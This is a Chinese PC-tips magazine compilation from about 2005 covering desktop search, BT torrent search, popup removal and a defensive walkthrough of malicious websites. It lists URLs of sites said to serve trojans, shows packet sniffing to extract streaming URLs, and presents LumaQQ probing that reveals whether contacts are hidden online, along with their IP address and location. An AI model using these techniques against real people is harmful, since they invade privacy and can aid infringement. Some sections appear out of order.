第一步：下载百度硬盘搜索后直接安装即可。在选择安装路径时要注意一点：该软件需要至少520MB的磁盘空间，如果C盘容量不够需要将路径修改为其他盘符。

第二步：一路“下一步”完成全部安装，运行桌面的“百度硬盘搜索”程序会在任务栏添加该程序的图标。

第三步：在使用该软件前需要建立索引信息，因此程序启动后会马上检索本地硬盘中的文件。搜索时间比较长。笔者索引34000个文件花费了两个半小时的时间。

该程序在启动时会建立两个进程，一个是baiducrawl.exe，另一个是baidudisksearch.exe(见图1)。软件就是通过这两个进程建立索引和进行搜索的。这两个程序在建立索引时，会非常占用系统资源。相比而言，Google Desktop Search会好些，它会智能地在电脑的空闲时间建立索引，如果电脑配置不是太差，基本不会感觉到。

### 小提示：如何提高索引文件建立速度？
在建立索引时建议不要动鼠标和键盘，尽量不要进行任何操作，因为边操作边索引会极大地减慢建立索引的速度，基本上一分钟才能索引一个文件。

第四步：索引全部建立完成后，直接用鼠标右击任务栏上的程序图标，选择“搜索硬盘”启动该程序(见图2)。



### 小提示：没有建立完索引就进行“搜索硬盘”操作也是可以的
只不过会出现类似“索引中，您已经搜索了XXX个文件，目前只能搜索部分内容”的提示，这样搜索出来的结果会不完全。另外，要想浏览已经索引的项目统计数据，还可以用鼠标右键点击任务栏图标选择“状态”来查看。

## 搜索应用篇
搜索方法非常简单，只要在图2显示的搜索区域输入自己想找的信息，再点“硬盘搜索”按钮即可。所有搜索到的结果都和在网上用百度搜索结果一样(见图3)，只是现在搜索的不是互联网上的资源而是自身硬盘里的文件。直接点搜索结果会自动用默认的程序打开该信息，非常方便。

### 妙技步步高
1. 直接点搜索结果右边的类似文件夹的图标后会马上转到相应目录，方便进一步查看。
2. 在搜索结果中还有一个“快照”的功能，惟一的好处就是点“快照”后系统将用IE打开搜索到的内容(文件)，而不用使用专门的程序打开了，减少了启动程序的步骤。不过该功能只对文本信息有效，而用该方法快照DOC等Office程序生成的文件时会出现无法响应的结果。
3. 如果希望将某一个搜索到的内容隐藏，不希望别人能够看到该信息，可以通过搜索结果页面右上方的“隐藏结果”来将希望隐藏的信息进行勾选。这样以后别人再搜索时就不会把你隐藏的信息显示出来了。
4. 在浏览器支持方面，使用其他一些浏览器，如：Mozilla Firefox、Netscape，也能进行硬盘搜索结果的查询，但软件的一些功能在这些浏览器中可能会工作不正常，因此推荐使用Microsoft IE或基于IE内核的浏览器。
5. 在设置页面中，我们还可以设置百度硬盘搜索的结果显示条目，在每页显示10条、20条和50条之间进行选择，而且还能设置不让软件搜索的目录和网站，只要在“需要排除的目录和网站”处进行添加即可，例如填入“C:\, http://www.sohu.com”则不会对本地硬盘的C盘数据以及Sohu网站的历史记录进行检索。

总体上说，百度硬盘搜索是目前桌面搜索中支持中文最好的，支持索引格式最多的，搜索速度方面的表现也是不错的软件。但任何软件都不是十全十美的，该软件在一些方面还需要完善，例如对Windows 98不支持，图片搜索不支持缩略图，长结构的语句进行搜索时常常得不到自己想要的结果，初始化建立索引的时间过长等。

(Sofler)





## 强！从网卡中“夺取”真实播放地址

### Ultra Network Sniffer小档案
| 项目 | 内容 |
| --- | --- |
| 软件版本 | 1.30 Build 60 |
| 软件大小 | 1923KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 98/2000/XP/2003 |
| 下载地址 | http://www.onlinedown.net/soft/22964.htm |
| 软件备注 | 未注册版本有15天的免费使用期限，无功能限制。 |

## 工作原理
我们在浏览器中点播某在线播放网站，就等于通过本地网卡给服务器发送一个请求（俗称数据包），这样当服务器有回应信息时，本地网卡将收到一个包含着服务器上的媒体文件地址的数据包；与此同时，流媒体服务器要把流媒体文件的实际地址传送给用户的浏览器，并且这个地址必须是能被浏览器所认知的，通过获取浏览器数据包的方式，就一定可以获得其真实地址。

## 实战监测
第一步：下载 Ultra Network Sniffer 并安装，安装完此软件需要重启一次系统。
第二步：启动 Ultra Network Sniffer，进入软件主界面前需要选择一个要监测的网络适配器，当然选择网卡了（见图1），单击“OK”进入软件。
第三步：进入后，Ultra Network Sniffer 会将当前系统正在运行的有网络行为的进程罗列出来，这时选择浏览器作为分析对象，在其上面点右键，选择“Enable Monitor”。
第四步：在浏览器中点击流媒体的在线观看地址，播放器出现“loading(开始加载)”时，说明包含流媒体的真实地址的数据包已经从服务器端传了过来，这时马上停止。

### 小提示：连接时间越长，监控到的数据就会越多
查看起来将会比较麻烦，所以只要一出现“开始加载”，即可停止或关闭播放。

第五步：返回 Ultra Network Sniffer 主界面，你可看到刚才所监控到的数据了。由于服务器是用 HTTP 协议的 80 端口把真实 URL 通过数据包形式发送到本地来提供流媒体服务的，所以只须查看一下“Remote Address(远程地址)”列中端口为 80 的数据即可。在包含有真实地址的数据列中，通常在 Ultra Network Sniffer 的结果显示的右侧中间的数据中将结果展开，“Date” 所对应的就是真实地址了（见图2）。
第六步：这时所得到的是 16 进制数据（其右侧对应的是乱码），用记事本将这些数据记录下来，然后用一个 16 位编辑软件如 UltraEdit、WinHEX（本文以它为例，下载地址为 http://www.onlinedown.net/soft/1509.htm 等，将 16 位数据转换成 10 进制数据即可。按 Ctrl + C 组合键将 16 位数据拷贝到剪贴板，打开 WinHEX 后按 Shift + Ins 组合键打开一个“选择剪贴板格式”的窗口，在列表中选择“ASCII Hex”即可；然后将文件另存为一个 TXT 文件，打开该文件就可以得到 10 进制的结果了。
第七步：一般得到的结果类似 rtsp://202.103.xxx.xxx/movie/天下无贼/01.rmvb，如果将此结果拷贝到一些下载软件中还是无法下载，可以尝试手工添加协议的 554 端口，rtsp://202.103.xxx.xxx:554/movie/天下无贼/01.rmvb，或将 rtsp 协议改为 http 协议，即 http://202.103.xxx.xxx/movie/天下无贼/01.rmvb。

### 特别提醒：本文只是讲解技术实现方法，请不要用于非法场合。

/iloveLY





## 弹出窗口 打CS时我最恨你
Windows XP SP2 推出后，比较先进的防广告窗口功能使得猖狂一时的弹出窗口没了脾气，再加上很多朋友已经用上了防广告功能更强大的 Maxthon、GreenBrowser，去除 IE 弹出窗口已经算不上什么难题了。可是，你可曾发现，在 QQ、MSN 等工具中还会有一些自带的弹出窗口，而且会不请自来。

### 实例 1：赶走 QQ 邮箱提示
喜欢 CS 的朋友肯定会对 QQ 的弹出窗口深恶痛绝，每当你刚刚把对手“爆头”，成绩节节攀升时，冷不丁地突然冒出一个 QQ 邮件提示窗口（见图），通知你收到一封信，严重影响你的游戏热情。即使没有在游戏，如果 QQ 信箱经常收到信，就会经常收到这样的信息。更为讨厌的是，如果你不按下窗口右上角的小叉子，系统中就会有一个 QQMail.exe 的进程长期存在，占用了宝贵的内存空间。

QQ 2004 添加了 QQMail 功能，每次登录 QQ 后，软件都会自动启动 QQMail 检查是否有新邮件，内存资源占用为 15MB 左右，严重影响系统速度。实际使用中，很多人都不使用 QQMail，有没有什么方法释放 QQMail 占用的宝贵内存或者取消其随 QQ 的自动启动呢？其实只要进到 QQ 目录下将以下文件 Mail.dll、MailRes.dll、QQMail.exe、QQMailCore.dll、QQMailHelper.dll 和整个 mailimage 目录全部删除即可，删除后启动 QQ 发现 QQMail 没有出现在任务管理器的进程列表中，烦人的新邮件提醒也消失了。

### 小提示：使用上面这种方法会使 QQ 邮箱完全失效
如果你今后想再用它，可以将上面几个文件暂时移到其他位置，需要用时再覆盖回来即可。

### 实例 2：取消 Media Player 10 的在线标签
Windows Media Player 10 想必大家都用上了，启动后你都会在它的右上角看到“东方宽频”的按钮，按钮虽不大，可一旦按下去就会连接到它的网页，总觉的是被别人强行安装的东西，非常希望删除掉它。要删除它也不难，这就需要我们以前提到的 hosts 文件了。

第一步：打开 C:\WINDOWS\system32\drivers\etc，找到 hosts 文件，用记事本打开并加上如下内容：
127.0.0.1 onlinestore.smgbb.cn
0.0.0.0 locator.metadata.windowsmedia.com
第二步：打开注册表编辑器，找到如下两个键值，将它们删除即可（删除整个 SMGBB 键值）。
[HKEY_CURRENT_USER\Software\Microsoft\MediaPlayer\Services\SMGBB]
[HKEY_USERS\S-1-5-21-1220945662-813497703-1060284298-1003\Software\Microsoft\MediaPlayer\Services\SMGBB]
这样，就可以彻底和这些按钮说“拜拜”了。

### 小提示：新闻窗口个性化
QQ会在出现一些新闻时弹出一个新闻窗口，简要叙述新闻内容，这个窗口暂时没有办法取消。好在它的出现频率不是很高兴，我们能做到的，仅仅是让它显示的内容无法出现。这同样需要修改 hosts 文件，用记事本打开并在 hosts 里加上如下内容即可：
127.0.0.1 minisite.qq.com

(LX 阮征)

## 传说中 QQ 不被回收的秘技
在 QQ 还可以随意申请的年代，有不少网友申请了很多号码，但长时间不使用，腾讯公司就会收回号码。据说收回条件是普通号码、资料空白、好友过少，另一种说法是三个月不登录，腾讯就会收回号码。现在，流传着一条“不被回收的秘技”，但因为证实起来比较困难，所以仅供参考。

第一步：去 QQ 主页(http://im.qq.com/qq/)下载一个英文版 QQ。
第二步：安装后，登录你的那些长期不用但希望保留的号码。
第三步：在“个人资料”处选择性别，原始资料是男的，选择“F”；原始资料是女的，则选择“M”（这点很奇怪）。
第四步：把资料里的“这家伙很懒 什么也没有留下”删除，改写成其他内容。
第五步：最重要的一条：设置 16 位数的密码，字母加数字组合。

再次重申：这只是一条流传在网上的秘技，是否有效还需进一步证实，所以请谨慎使用。

(福建 小亚)

## 隐身好友 看我的如来神掌
如何查询QQ好友是否处于隐身状态一直是很多读者讨论的话题。以前采用的通过发送视频请求的方法早已失效，那么在新版本QQ中如何实现这个查询好友是否隐身的功能呢？其实我们可以通过一个新软件——LumaQQ来实现。

说起LumaQQ，很多使用Linux或Unix的朋友一定听说过，它是在该类系统下运行的通讯软件，支持QQ。最近该软件发布了在Windows下运行的版本，而且还加入了很多新功能，包括查询好友是否隐身的功能，今天就让我们全面地了解它。

### LumaQQ小档案
| 项目 | 内容 |
| --- | --- |
| 软件版本 | Windows版V20050303 |
| 软件大小 | 24160 KB |
| 软件性质 | 免费软件 |
| 运行平台 | Window 2000/NT/XP/2003 |
| 主程序 | http://ftp11.enet.com.cn/pub/network/qq/lumaqq_2004-win32_x86_with_jre.zip |
| 补丁程序 | http://lumaqq.linuxsir.org/download/patch/lumaqq_2004_patch_2005.03.05.00.00.zip |

### 安装篇
第一步：按照上面地址下载主程序和升级补丁，将其解压缩。将升级补丁解压缩后，把目录里的LumaQQ.jar和shutter.jar复制到主程序目录的LIB子目录中。
第二步：在本机安装JAVA程序，可以从 http://www.java.com/zh/download/manual.jsp 下载 j2re-1_4_2_06-Windows-i586-p.exe，然后双击这个EXE文件进行安装即可。
第三步：安装完毕后，直接运行主程序目录里的LumaQQ.bat即可启动LumaQQ的登录界面。

为什么必须安装JAVA程序？因为LumaQQ是用JAVA编译完成的，所以在使用该软件前需要在本地电脑安装JRE或者JDK1.4以上版本。

### 使用篇
我们将通过LumaQQ来查看当前用户是否为隐身。
第一步：运行主程序解压缩目录里的LumaQQ.bat，在登录界面中输入你的QQ号和密码后登录(见图1)。



第二步：登录后界面如图2所示，是不是和QQ很相似。这里要检测一个用户处于什么状态只需要在该用户头像上点右键后选择“如来神掌”就开始对该用户状态进行查询。如果对方处于隐身状态的话就会弹出“对方中招，他肯定在线，如果你看不到他，他肯定是隐身了。”的提示信息，对方的IP地址和地点也会显示出来(见图3)。





第三步：如果对方真的不在线，在使用“如来神掌”后会弹出“你从天而降，单掌拍出，竟是武林失传多年的如来神掌”的信息。另外当你检测出对方处于隐身状态后该用户的QQ昵称会变成绿色(见图4)。

### 实例：批量查询好友登录状态
当你希望能够对所有好友或某几个好友批量查询登录状态时，可以点击软件最下方的LumaQQ按钮，在出现的菜单中选择“好友信息管理→如来神掌之乱舞”。在接下来出现的窗口中的“我的好友”下方选择相应好友，如果希望对所有好友进行检测的话，将好友全部选中后点最下面的“发招”按钮，软件将对所有选中用户进行侦测，结果也将清晰地显示出来(见图5)。



★如果你觉得LumaQQ的界面类似于QQ2003，而自己习惯了QQ2004的界面和好友头像的话只需要在“系统设置→界面设置→使用2004风格头像”前打勾即可。
★Lumaqq还有很多类似真正QQ的功能，如个人设置和系统设置等等，操作方法也和QQ一样，相信习惯了使用QQ的读者会很容易上手的。另外该软件也支持群组消息。

小编有话说：该软件这个如来神掌功能可以说是彻底实现了隐身好友的查询功能，在实际使用中笔者屡试不爽。不过有一个缺点就是虽然LumaQQ支持群组消息，但笔者用自己的QQ登录后发现以前加入的群组信息都丢失了，要想群组聊天还只能使用以前的QQ版本，在LumaQQ中只支持加入新组，对于已经加入的组信息读取不出来。这一点非常的不理想，希望以后的版本可以解决这个问题。



（北京 阮征）

## 浏览器也能体验“简单爱”
从Windows 2000开始，在IE中浏览港台地区的网站已经不怎么会看到乱码了，因为IE中已经集成了相应字符集，操作系统也对各类编码有了很好的适应。
不过，有个问题似乎一直没有解决：被称为BIG5码的繁体中文和GB码简体中文虽然都属于中文，但在某些结构上差异颇大，以至于在查看繁体字网页时，我们更希望用简体字来显示，这样更舒服。港台地区的朋友则可能正好相反。
怎么办？你可能会想到一种很土的解决方法：把文字复制到Word等工具中，然后利用内置工具进行转换，这未免太麻烦了吧。其实一个很小的软件就可以搞定。
软件只有一个可执行文件，双击即可完成安装。安装成功后，打开IE，在工具栏右击并勾选“ALiBaBar”，就会看到工具栏“简”、“繁”两个按钮。接下来的工作不说也你猜到了(见图1)。



### ALiBaBar小档案
| 项目 | 内容 |
| --- | --- |
| 软件版本 | 5.1 |
| 软件大小 | 582KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9X/ME/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/16542.htm |
| 软件备注 | 在安装新版前，要注意卸载以前的旧版本。 |

### 实例1：简与繁 轻松一点间
随便打开一个繁体字网页，比如 http://www.pchome.com.tw/，然后按下“简”，字体瞬间就转换了(见图2)。当然，ALiBaBar的功能还不止这么简单呢！



### Just Do It
在网页空白处按下鼠标右键，看看有什么新发现？
1. 自动记录转换模式
如果要访问很多个繁体网站，每次都要按工具栏中的按钮就有点麻烦了。这时只要按下工具栏上的锁形按钮，然后选择“自动转为简体中文”即可(见图3)。
2. 剪贴板内码转换
说到这里，你可能想到了多年前流行的“南极星”，它最常用功能就是转换内码，ALiBaBar自然也有这个功能，你可以在工具栏按下“T”和“S”按钮，就能将复制到剪贴板中的文字转换成繁体或简体。



### 实例2：简与繁 让你轻松到家
ALiBaBar还具有表单数据自动转换功能。当你在繁体网站上注册用户时，网站往往要求中文必须为BIG5码，用剪贴板转换没问题，但如果需要转换的内容比较就很多麻烦了。在ALiBaBar工具栏上右击鼠标，选择“程式设定→转换”，勾选“将送出的表格文字自动做简繁转换”(见图4)。今后填表的时候，再也不用考虑内码的问题了！



除此之外，ALiBaBar还有地方词汇修正功能、网页自动缩放功能，给浏览带来不少便利。如果你是一个喜欢在港台网站转悠的人，ALiBaBar还是挺适合你的。

(LX)## 轻松做个寻种大师

BT是什么? 相信经常在网上下载歌曲、电影等资源的读者不会陌生。虽然网络中的免费午餐越来越少，但还是有很多资源是可以通BT来免费获得的。在BT软件中免费资源是靠种子来下载的，没有了种子就无法实现数据的下载，究竟到哪里去找这些免费的资源呢? 今天就请跟随笔者一起成为BT搜索的专家。

## 用Google、百度找种子

普通读者可能经常要寻找BT种子，一想到搜索就想到了强大的搜索引擎。这里告诉大家一个巧妙的方法来搜索BT种子。在Google搜索处使用如下格式进行查找：“种子名 filetype:torrent”。例如，要搜索电影《碟中谍5》(这部电影并不存在)，只需要在Google搜索框中填入“碟中谍5 filetype:torrent”(不含引号)即可，搜索结果如图1所示，有很多个种子被轻松找到。



> **小提示**
>
> 在百度中通过“种子名 filetype:torrent”是搜索不到BT种子的，因为该网站没有开通这个功能。但搜索其他文件格式如“书名 filetype:pdf”是可以搜索到的。

## 专业的就是不一样

自从BT流行后，网上就出现了不少专门提供BT种子搜索的搜索引擎，像BT特工(http://bt.igdbol.com)、BT@CHINA联盟搜索引擎(http://search.btchina.net)、BT守望者(http://www.bitower.com)、BT搜索联盟(http://www.btfan.com)等。但由于它们各有千秋，所以我们往往会在多个搜索引擎中寻找种子。而现在的流行趋势则是集成化，一次完成多个引擎的搜索，省了不少时间。

### 1. 冬儿BT搜索:我收集了15个BT搜索

网址: http://www.dongr.com/search/index.php?t=11
冬儿搜索其实是一个集成有网页、新闻、黄页、音乐、软件、游戏等多种内容搜索的网站，它本身并不直接提供搜索服务，而是集成了各类流行的搜索引擎，你只要在这里输入一个关键字，然后再选择要使用的搜索引擎，比如Google或是百度等，便可以快速搜索到Google中的内容。而其中的冬儿BT搜索则集成了国内15家BT搜索引擎。

### 2. 猪猪BT搜索:一次搜7家

网址: http://www.pigbt.com/
上面的冬儿虽然集成的BT搜索引擎多，但每次只能针对一个引擎搜索，而猪猪BT搜索却能让你输入一次关键词，立即对七个著名的BT搜索引擎进行搜索。

> **小提示**
>
> 由于BT种子存活期非常短，往往一两天就会失效，所以搜索出来的种子的可用性也是一个未知数。笔者的经验是同一时间内通过多个种子下载同一个内容，根据一小时内的下载结果做下判断筛选，将已经死亡的任务及下载文件删除掉，只保留可用的即可。

### 3. 把它们引进腾讯TT中:直接搬到家

还记得我们以前曾经介绍过如何手动添加搜索引擎到腾讯的TT中吗? 其实大同小异，你也可以将经常使用的BT搜索引擎添加到TT中，这样就能直接在浏览器提供的搜索框中输入关键字，回车后即可直接对多个引擎进行搜索。
第一步: 收集必需的搜索引擎地址，方法很简单，比如:在BT守望者(http://www.bitower.com)中输入“狂”这个关键字后回车，复制搜索结果的链接http://www.bitower.com/(0vmllq4515wu4y55bihc0p55)/search.aspx?q=%C9%F1%BB%B0%CA%B1%B4%FA&p=Seed&b=0到一个文本文件中，去除不必要的部分，最后精简为http://www.bitower.com/search.aspx?q=，这就是搜索引擎的关键部分了。利用同样方法收集其他搜索引擎的地址信息。

> **小提示**
>
> 著名BT搜索引擎URL
> BT特工: http://www.souyo.com/exec/search?b=BT特工搜索&kt=2&rr=5&k=
> 天天BT下载: http://www.ttbt.cn/search.asp?type=soft&k=
> BT搜索客: http://www.btseeker.com/Search.aspx?Key=
> 搜游网: http://www.souyo.com/exec/search?k=

第二步: 打开TT，点击“工具→TT选项”，进入“搜索设置”项，接着在右侧窗格中单击“新增”按钮，在弹出的如图2窗口中输入引擎名称以及刚才整理的URL，然后再单击下面的“插入[%]”，这样在“URL格式”文本框中便是“http://www.bitower.com/search.aspx?q=[%]”。使用同样方法添加其他搜索引擎。
第三步: 退出“TT选项”窗口，单击浏览器工具栏右侧的“多搜索”按钮右侧的向下箭头弹出如图3的菜单，首先要勾选“多引擎搜索”，接着再勾选刚才设置的BT搜索引擎。完成后，只要在工具栏“搜索”文本框中输入关键词，然后单击“多搜索”按钮，浏览器便会打开多个窗口进行搜索。



**Just Do It**
其他第三方浏览器一般也集成有类似TT的搜索增强功能，因此你可以根据上面的方法来应用到自己的浏览器中。



## 请软件来帮忙搜索BT种子

上面介绍了这么多方法，虽然非常有效，但我们要下载一个电影时需要访问多个BT论坛寻找该电影的种子，找起来有些麻烦。有没有一种软件能自动从各个著名BT论坛搜索相应的种子呢? 最近笔者就发现了这样一款不错的BT种子搜索软件——BT搜索专家，在此推荐给大家。

**BT搜索专家小档案**
软件版本: v 1.0
软件大小: 416KB
软件性质: 免费软件
运行平台: Window 2000/NT/XP/2003
下载地址: http://www.onlinedown.net/soft/38728.htm

该软件是绿色软件，不用安装就能运行。它是国内首款客户端BT种子搜索工具，通过它你可以轻易地从百万个BT种子中搜索出你想下载的资源，而且软件会自动将搜索结果中连接数最多的种子放到最前面，这样就大大提高了我们的下载速度，另外内置的BT种子论坛引擎数据库可以在线不断更新。

> **小提示**
>
> ★通过该软件还可以搜索MP3歌曲、Flash动画和其他媒体文件，只要在搜索选项中将相应的类型打上对勾即可，搜索到的资源也是非常多的。
> ★目前还有同样功能的BT搜索软件，比如:BT搜宝(http://nj.onlinedown.net/soft/34947.htm)等，你也可以试试。

> (Softer 果瓜)

## IE历史记录我做主

使用IE时间一长，我们访问过的Web网站便会保存在IE历史记录中，以后在地址栏内输入与以前访问的网站URL一样的字符串时，便显示出所有相关历史记录，这便是IE的自动完成功能。虽说是方便了，但随着历史记录数量的增加，数据库越来越庞大，检索起来反而更麻烦了。这个，相信大家都有过:如果能保留一些需要用于自动完成功能的访问记录，其他都通通删掉就好了。但IE并没有提供历史记录的查看和编辑功能，我们只能采用一刀切的方式，将所有历史记录全部清除。这并不是我们所需要的，怎么办? 此时，就需要IEHistoryView这款小软件的帮忙了。

**IEHistoryView小档案**
软件版本: 1.22
软件大小: 37KB
软件性质: 免费软件
适用平台: Windows 98/ME/NT/2000/XP
下载地址: http://www.nirsoft.net/utils/iehv.zip
软件备注: 它是一款绿色的小软件，下载完成后，只要解压缩后便可以直接运行了。

## 实例: 保留特定IE访问记录

IEHistoryView运行后，会自动搜索IE的历史访问记录，并显示在其主窗口的列表栏中(见图)。每条访问记录的内容包括了点击次数(Hits)、访问日期、URL地址等项目。如果访问记录太多，只要单击“Hits”标题栏，整个记录便会按照你点击该链接的次数进行排序，经常访问的网址便一目了然了。接下来，只要选择需要删除的记录，点击工具栏中的删除按钮即可。



> **小提示**
>
> ★通过Shift键或者Ctrl键的配合，可以一次选中多条记录。
> ★IE将最近25条访问记录保存在[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs]。在默认情况下，IEHistoryView并不显示这些访问记录。不过，可以在IEHistoryView的菜单栏中依次选择“View→Display Typed URLs”来显示这些“漏网之鱼”。

**你知道吗?**
IE有一项非常实用的功能:Cookies。有了它，我们可以在不输入用户名和密码的情况下，直接进入曾经浏览的某些站点(特别是论坛)，以达到快速浏览网页的目的。但IE仍然没有提供Cookies的查看和编辑功能，用户能够做的只是清除所有Cookies记录，无法进行有选择地删除。你可以到 http://www.nirsoft.net/utils/iecv.zip 下载IECookiesView这个免费软件，可以让你自由选择Cookie文件内容，决定是否删除。

> (柳庄头)

## 直击犯罪第一现场

不知你发现没有，随着宽带技术日益普及，篡改 IE 主页地址、自动下载木马程序的恶意网站也越来越多。据相关统计显示，截止到 2005 年 2 月初，中国大约有 1200 个恶意网站，比较流行的木马约有 6500 个，后门软件约有 4000 个，间谍广告约 3100 个，每天有 70% 的网民受到恶意网站、恶意程序的攻击。
这些恶意网站一般通过带有诱人内容的图片及游戏链接吸引用户点击，或是利用一些著名软件的下载作诱饵等方式，欺骗用户安装它们的带有恶意攻击性质的程序或插件。今天，就让我们给这些恶意网站归归类，一步一步将它们赶出电脑。

## 小心这些名字！

下面是上网助手统计的 2004 十大恶意网站，它们的共同特点都是篡改用户 IE 主页，今后凡是看到这些网站的名称，一定要警惕！

| 序号 | 网站名称 | 特点 |
| --- | --- | --- |
| 1 | 福建网址 | 篡改用户主页，该网站包括多个变种恶意程序。 |
| 2 | 通途情缘音乐网 | 篡改用户主页，发送 QQ 尾巴信息。 |
| 3 | DD88 | 篡改用户主页，下载恶意程序。 |
| 4 | 彩秀 | 篡改用户主页，下载恶意程序。该恶意程序会建立 TXT 文件关联。 |
| 5 | 新年快乐 | 该网站会修改用户主页，发送 QQ 尾巴信息来强行推广自己的网站。 |
| 6 | 免费成人电影 | 篡改用户主页，在注册表中添加自己的启动项。 |
| 7 | 我 365 网址 | 当出现找不到服务器的情况，会自动跳转到该网站。 |
| 8 | 免费注册 5 位数 QQ 靓号 | 篡改用户主页，修改 IE 标题栏，锁定注册表，结束瑞星、天网等多个安全软件进程，关闭部分系统服务，造成系统异常。 |
| 9 | 久久情缘 | 篡改用户主页，修改 IE 标题栏，禁用注册表编辑，添加链接到用户收藏夹。 |
| 10 | 酷彩网 | 篡改用户主页。 |

注:因网站名称存在雷同现象，所以不代表所有如此命名的网站都为恶意网站。

## 你知道吗？

如何让恶意网站永不骚扰我
对于已知的恶意网站，可以在 IE 中把它“屏蔽”起来，具体的方法如下:打开 IE，单击菜单“工具→Internet 选项→安全→受限制的站点”，单击“站点”按钮，在弹出的窗口中，将所有的恶意网站地址添加进来，最后“确定”返回上层设置窗口再单击“自定义级别”按钮将该区域站点的限制级别设置为最高，这样就可以在一定程度上保护你的系统。

## 直击犯罪现场——恶意网站解析

绝大多数的情况下，我们并不能预知哪个是恶意网站，所以对于这些防不胜防的恶意网站，还得学会一些自救的方法！为此我们请来资深的网络巡警 LY 同志，他将从 IE 被攻击或绑架的第一现场来讲解使用防御或自救的方法。注意:下文中的网址多是恶意网站，在做好安全措施之前请勿访问！
网上流传着一些朋友们总结的恶意网站黑名单，我们在其中选择一些较为典型的恶意网站作为访问对象，然后通过 IE 被攻击或绑架的情况来给大家演示解决的方法。这里使用的是 Windows XP SP2 简体中文版系统，它现在大家用得比较多的一个操作系统，这也是选择它作为测试系统的原因。同时，为了方便 IE 被感染，没有打开防火墙和杀毒软件。(特别提醒一下:这是为了方便测试才这么做，请大家不要轻易尝试哦！)好了，让我们开始进入“犯罪第一现场”吧！

### 案发现场一:http://www.yysky.net

案情: QQ 尾巴
危害程度: ★★★★☆
案情分析: 进入 http://www.yysky.net 的网站后，发现域名转向了 http://www.yy240.com，打开网页后，系统并没有明显的异常。启动 QQ 软件，打开对聊窗口，发现每发一句话都会自动地附带一个有 HTTP 链接的消息，这就是大家所熟悉的“QQ 尾巴”。当然，这样初次感染的机会不是很多，大部分“QQ 尾巴”病毒都是二次感染的，也就是点击了网友发送过来的带有“QQ 尾巴”的链接，而这些链接具有一定的诱惑性，再加上自己的不小心，使得感染“QQ 尾巴”病毒几率相当大。自己受罪还会连累网友，这才是最让人恼火的。
清除难度: 容易
侦破结果: 一般的“QQ 尾巴”是比较容易清除的，它的专杀工具也很多，笔者推荐的是瑞星的 QQ 病毒专杀工具，下载地址为 http://download.rising.com.cn/zsgj/RavQQMs sender.exe。下载后双击运行此工具，单击“杀毒”即可(见图1)。



案情分析: 其实这个网站并不是什么恶意网站，它只不过可能在不知不觉的情况下给 IE 上安装上了一个“网址”的菜单(见图3)，而其官方网站并没有提供卸载程序，手动删除还比较麻烦，这样使不喜欢这个“网址”功能的用户就很讨厌它。



侦破结果: 官方网站没有直接的卸载程序，不过某热心的网友专门为其写了一个卸载程序，下载地址为 http://www.newhua.com/cfan/2005./wzjxUninst.rar。

小提示
有些网站也是通过自动运行恶意脚本，从而修改收藏夹目录，你会发现收藏夹多了一些陌生的网址。“作案”手法很一般，它利用我们对自己收藏夹的信任达到目的。修改收藏夹的手法有很多，不过大多数情况都可以通过 IE 修复软件来解决。

### 案发现场四:http://www.sunvod.com

案情: 网页木马
危害程度: ★★★★★
案情分析: 这个网站比较可恶，它是采用了嵌套网页的方式加载网页木马的。通过分析其源文件得知，实际带有木马的网页为 http://www.51t.cn/cyindex.htm。在 IE 中进入 http://www.sunvod.com 后，IE 很快进入假死状态，并弹出一个无法关闭的“服务器正在运行中”的窗口，等待大约 2 分钟后会弹出“超简单网页木马”的窗口，不管选择“是”与“否”，系统运行都很慢，而且任务管理器被禁用(见图4)。



```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableTaskmgr"=dword:00000000
```

侦破结果:
(1) 这时通过重启计算机释放系统资源。重启后打开记事本，输入以下的内容，然后另存为 REG 文件，双击合并到注册表中，这时任务管理器就可以使用了。
(2) 打开任务管理器，没有发现可疑的程序;在开始运行中输入 msconfig 并回车，打开启动项管理程序，检查启动项目，没有异常项目。
(3) 没有发现异常，最后是通过杀毒软件查杀该木马。

### 案发现场二:http://www.yan88.com

案情: 域名劫持
危害程度: ★★★
案情分析: 浏览了 http://www.yan88.com 网页后关闭该网页，似乎没有任何异常。不过假设这时你要打开太平洋电脑网，输入域名 www.pconline.com.cn 后，域名会自动转向 http://www.zui8.com 这个网站，zui8.com 就是 www.yan88.com 的另一个域名，而太平洋电脑网就无法访问了！这是一个很典型的域名转向故障。
侦破结果: 根据初步判断为域名转向故障，那么很有可能是 hosts 文件被修改了，打开 %Windir%\system32\drivers\etc 目录，用记事本打开 hosts 文件(此文件为隐藏文件，要在“工具→文件夹选项”中将系统设置为显示隐藏文件)，发现很多域名都被定向到 218.85.139.121 这个 IP(见图2)，在 IE 中输入此 IP，就会访问 http://www.zui8.com，它就罪魁祸首了！
知道了原因，解决就比较简单了。把 hosts 文件中所有包含 218.85.139.121 这个 IP 的项目删除，然后打开 IE 属性，在“常规”标签下单击“删除 cookies”和“删除文件”;切换到“安全”标签，将该 IP 添加到“受限制站点”的列表中，这样以后就不会再中它的标了。



### 案发现场三:http://www.jixian.net

案情: 修改 IE 主菜单
危害程度: ★

其实，对于这种简单的网页木马，只要我们打开杀毒软件的监控系统，它们一般是无可乘的，所以防范的方法也很简单——打开杀毒软件的监控系统即可。有些朋友可能不太喜欢打开，因为监控一般都要占用不少的系统资源，不过以现在电脑的配置，用那一点资源换安全还是很值得的。

## 其他 IE 劫持分析

主持人:谢谢 LY 的现场精彩的案例分析! 掌声鼓励一下!

LY: 谢谢！下面，我提几个黑名单中没找到类似 IE 劫持的案例来给大家分析一下。

### 1. 修改 URL 前缀

当在浏览器的地址栏输入一个网址而没有输入其前缀（比如 http:// 或 ftp://）时，浏览器会试图使用默认的前缀（默认为 http://）。有时前缀会被改为 http://www.AA.BB/，当输入一个网址如 www.cfan.com.cn 时，实际打开的网址变成了 —— http://www.AA.BB/?www.cfan.com.cn

**侦破结果:**

(1) 如果中了木马 CoolWebSearch 就可能造成此现象。建议使用 CoolWebSearch 的专杀——CoolWebSearch Shredder（下载地址 http://nj.onlinedown.net/soft/32676.htm）来修复。如果使用 CWShredder.exe 发现了问题但却无法修复（Fix），请在安全模式下使用 CWShredder.exe 再次修复（Fix）。

(2) 如果使用 CWShredder.exe 后仍然无法修复或者根本未发现异常，请使用 Hijackthis 来扫描修复。

### 2. BHO 模块

